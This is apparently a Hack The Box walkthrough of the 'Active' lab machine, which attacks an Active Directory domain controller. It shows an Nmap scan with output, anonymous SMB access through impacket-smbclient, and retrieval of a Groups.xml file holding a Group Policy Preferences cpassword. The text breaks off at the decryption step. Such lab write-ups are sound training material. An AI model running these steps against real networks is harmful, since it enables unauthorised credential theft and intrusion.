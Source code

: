 ```yaml
---
layout: post
title:  Attacking Active Directory Cheatsheet
description: Cheatsheet for Attacking Active Directory
date:   2024-11-01 01:00:00 +0300
image:  '/images/htb_active.jpg'
tags:   [HTB, OSCP+, Active-Directory]
---
```

# Enumeration
### Nmap
```shell
nmap -A -Pn -T4 -p- 10.129.149.20
```
```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-01 23:19 EDT
Nmap scan report for 10.129.149.20
Host is up (0.034s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-02 03:20:32Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49162/tcp open  msrpc         Microsoft Windows RPC
49166/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=11/1%OT=53%CT=1%CU=36646%PV=Y%DS=2%DC=T%G=Y%TM=6725
OS:9ACC%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=108%TI=I%II=I%SS=S%TS=7)
OS:SEQ(SP=103%GCD=1%ISR=108%TI=I%CI=I%II=I%SS=S%TS=7)OPS(O1=M53CNW8ST11%O2=
OS:M53CNW8ST11%O3=M53CNW8NNT11%O4=M53CNW8ST11%O5=M53CNW8ST11%O6=M53CST11)WI
OS:N(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=N)ECN(R=Y%DF=Y%T
OS:=80%W=2000%O=M53CNW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T
OS:2(R=N)T3(R=N)T4(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T4(R=Y%D
OS:F=Y%T=80%W=0%S=O%A=O%F=R%O=%RD=0%Q=)T5(R=N)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=O%
OS:F=AR%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T6(
OS:R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=O%A=O%F=
OS:R%O=%RD=0%Q=)T7(R=N)U1(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-11-02T03:21:40
|_  start_date: 2024-11-02T03:08:52
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   33.99 ms 10.10.14.1
2   34.03 ms 10.129.149.20

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.65 seconds
```

Examining the Nmap results, we can identify the typical active ports of a domain controller (53, 88, 135, 139, 389, 445, 636, 3268, 3269) as well as the domain **active.htb**.

Add **active.htb** to /etc/hosts using the CLI:
```shell
echo "10.129.149.20 active.htb" | sudo tee -a /etc/hosts
```
Or with a text editor like gedit:
```shell
sudo gedit /etc/hosts
```
We can also see in our Nmap scan results that the target is running **Windows Server 2008 R2 SP1**.

### SMB Null Session access to Replication Share and finding Groups.xml
Testing SMB Null Session was successful, we can get access using:
```shell
impacket-smbclient active.htb/'':''@10.129.149.20
```
And then proceed to enumerate the available shares:
```shell
# Enter "shares" to display all the shares

# shares
ADMIN$
C$
IPC$
NETLOGON
Replication
SYSVOL
Users
```
It seems like we cannot access SYSVOL or Users but we can access the
Replication share.

Inside the Replication share we can find the file **Groups.xml**:
```shell
# The Groups.xml file is located at the following directory
cd \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups

# Use "mget" to download Groups.xml
mget Groups.xml
```

The Groups.xml file contains the cpassword for the user SVC_TGS. We can infer that this user is associated with the "Ticket Granting System" and that "SVC" stands for "Service." Therefore, this user is related to Kerberos.

_Windows previously stored Group Policy Preferences (GPP) credentials (Local Administrator credentials) in a file named Groups.xml, which was typically located in the Preferences folder within SYSVOL. This practice remained unchanged until the release of MS14-025. Our Nmap scan indicates that the target is running Windows Server 2008, which means it is potentially vulnerable._

# Foothold
### Decrypt GPP cpassword for user SVC_TGS
.

